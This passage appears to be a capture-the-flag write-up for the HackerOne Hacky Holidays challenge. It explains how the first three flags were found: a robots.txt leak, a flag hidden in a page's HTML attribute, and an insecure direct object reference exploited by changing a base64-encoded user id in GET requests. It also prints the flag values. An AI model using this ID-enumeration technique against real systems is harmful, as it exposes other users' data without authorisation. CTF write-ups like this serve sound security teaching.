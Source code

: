 Save it in `get-all-flags.sh`, run `chmod +x get-all-flags.sh; ./get-all-flags.sh`. If all works as expected, this should be the output:

{F1130220}

------------------------

## Flag 1 - robots.txt leak

The first flag was found in the /robots.txt directory by common crawl of burp-suite. Once we navigate to it, there is the flag and a hint for the second one:

```
User-agent: *
Disallow: /s3cr3t-ar3a
Flag: flag{48104912-28b0-494a-9995-a203d1e261e7}
```
###### note:  In general, this file contains endpoints that that might or might not disclose sensitive endpoints. 

-----------------

## Flag 2 - Into the DOM

From the `/robots.txt` file, we find out of `/s3cr3t-ar3a`. Once we visit it, we note that the site is under construction and there isn't anything sensitive at first look but there is a hint `...If you're allowed access you'll know where to look for the proper page!`.

So we check the source-code and nothing, then we use the inspect element and there is the flag hidden inside a div tag:

```html
<div class="alert alert-danger text-center" id="alertbox" data-info="flag{b7ebcb75-9100-4f91-8454-cfb9574459f7}" next-page="/apps">
```

----------------------------------


## Flag 3 - who is always the first user?

This flag is located in `/people-rater` where Grinch rates people. Every time we click to know the Grinch's rating of someone, the following GET request is sent to the server:

```
GET /people-rater/entry?id=eyJpZCI6Mn0= HTTP/1.1
Host: hackyholidays.h1ctf.com
{redacted}
````
The value of the ID is base64 encoded. Once decoded we notice that it includes a number: `{"id":2} ` .  If we increase that number we will get the others people's rating, but trying the number 1, gives but the rating of Grinch itself (the first user), with the third flag in the response too.

```
GET /people-rater/entry?id=eyJpZCI6MX0g HTTP/1.1
Host: hackyholidays.h1ctf.com
```
```json
{"id":"eyJpZCI6MX0=","name":"The Grinch","rating":"Amazing in every possible way!","flag":"flag{b705fb11-fb55-442f-847f-0931be82ed9a}"}
```
